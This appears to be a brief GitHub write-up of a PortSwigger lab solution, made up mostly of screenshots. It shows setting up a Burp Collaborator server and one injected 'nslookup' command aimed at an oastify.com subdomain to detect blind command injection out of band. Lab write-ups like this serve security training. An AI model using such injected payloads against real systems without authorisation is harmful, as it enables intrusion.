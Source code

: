 ## Lab Descriptions:

<img width="891" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/921d4e94-82c7-4568-bc27-7e4f2e93b4e4">

## Solution:

<img width="645" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/1087613e-5565-4a05-863b-bd1c63e95c39">


<img width="1426" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/c27699aa-ec32-4d97-ac77-23b0efde5dac">
We first create a external server ie . collaborator server.


<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/960abd01-50e5-4049-bf10-cf987a1f0430">

a5gfydik83olivlohr40icbsqjwak08p.oastify.com - ## Server

$ nslookup a5gfydik83olivlohr40icbsqjwak08p.oastify.com #

<img width="1428" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/071e6979-fb00-4d23-97ac-2a34daf7c8c8">
Now click SEND button, click POLL NOW button in burp collaborator` 


<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/0690d2de-5d52-4994-8fa7-fc9b45ab778f">


Result:

<img width="1416" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/870c1430-0377-49f8-836c-d45f1f99096d">

